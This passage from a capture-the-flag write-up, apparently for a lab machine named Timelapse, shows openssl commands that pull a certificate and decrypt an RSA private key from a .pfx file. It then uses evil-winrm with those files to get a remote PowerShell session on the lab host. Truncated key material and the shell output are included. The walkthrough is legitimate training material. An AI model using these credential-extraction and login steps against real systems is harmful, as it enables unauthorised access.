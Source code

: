 You can also extract the **certificate** from the file. I run:

`openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy.crt`

And end up with the **legacyy.crt file**:

```bash
Bag Attributes
    localKeyID: 01 00 00 00 
subject=CN = Legacyy

issuer=CN = Legacyy

-----BEGIN CERTIFICATE-----
MIIDJjCCAg6gAwIBAgIQHZmJKYrPEbtBk6HP9E4S3zANBgkqhkiG9w0BAQsFADAS
MRAwDgYDVQQDDAdMZWdhY3l5MB4XDTIxMTAyNTE0MDU1MloXDTMxMTAyNTE0MTU1

--- SNIP ---
```

And finally you can decrypt the encrypted private key. I run:

`openssl rsa -in legacyy.key -out decrypted.key`

And enter the password I chose when it asked for the PEM pass phrase upon creating the key. Now that we've decrypted the encrypted key it leaves us with a standard **RSA private key**:

```bash
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEApVYHo2IWRx7i800jrWFxzoues0qHK/aJvOeGA7v+qhwWuDX/
MRT+iDTQTZWFrwMQryjPGkLB6b97aKcKUPmG0WQ7tTccob3zTU0V43RUFfZyIipK

--- SNIP ---
```

<br>

## System Access

Now that we have these files we should be able to use them to connect over to the box with **evil-winrm**.

`evil-winrm -i 10.10.11.152 -S -u -p -c legacyy.crt -k legacyy.key`

```powershell
Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

Enter PEM pass phrase:
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
*Evil-WinRM* PS C:\Users\legacyy\Documents> net user legacyy
User name                    legacyy
Full Name                    Legacyy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

```